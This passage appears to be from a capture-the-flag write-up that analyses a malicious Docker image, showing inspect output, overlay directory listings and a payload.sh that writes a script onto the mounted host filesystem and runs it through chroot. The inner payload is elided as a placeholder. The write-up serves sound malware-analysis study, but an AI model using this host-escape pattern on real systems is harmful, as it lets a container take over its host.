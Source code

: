 We inspect the image with `docker image inspect welcome.insomnihack.ch/shame`:

```json
           "Data": {
                "LowerDir": "/var/lib/docker/overlay2/1e2784c49c73b6baecf076714839ff70fdc386214cde86a4b3e595c2071ef98f/diff:/var/lib/docker/overlay2/9b48f754a46eaf565917648fafa91fc6d066310506fa8c59e9abb4c27ddf1dba/diff:/var/lib/docker/overlay2/1c48b2594afe24166bf485a1b4416c242586bbbf4aaad4971860ee975a0dd030/diff",
                "MergedDir": "/var/lib/docker/overlay2/dbba8172b6851fa39220477106e292b569daf141928835acf1a5e835630eb8ae/merged",
                "UpperDir": "/var/lib/docker/overlay2/dbba8172b6851fa39220477106e292b569daf141928835acf1a5e835630eb8ae/diff",
                "WorkDir": "/var/lib/docker/overlay2/dbba8172b6851fa39220477106e292b569daf141928835acf1a5e835630eb8ae/work"
            },
```

We are interested in the data directories which are going to hold the payload of the malware.
With `tree /var/lib/docker/overlay2/1c48b2594afe24166bf485a1b4416c242586bbbf4aaad4971860ee975a0dd030/diff/usr`, we see the Docker image is based on Alpine:

![](/images/ins23-shame-alpine.png)

In another directory, we finally find the payload:

```
root@crocodile:/var/lib/docker/overlay2/dbba8172b6851fa39220477106e292b569daf141928835acf1a5e835630eb8ae/diff# ls -al
total 20
drwxr-xr-x 3 root root 4096 Mar 24 19:30 .
drwx--x--- 4 root root 4096 Mar 24 19:30 ..
drwxr-xr-x 2 root root 4096 Mar 24 16:47 etc
-rwxrw-r-- 1 root root 5346 Mar 24 16:44 payload.sh
```

The `/etc` directory is empty. This is the content of `payload.sh`:

```sh
#!/bin/sh

cat << "EOT" > "/host/payload"

BASH CONTENT BLOB
EOT

chmod a+x "/host/payload"
chroot "/host" "/payload"
```

This creates a `/host/payload` file with the following content until the "EOT" marker, then it marks the file as executable and runs it.
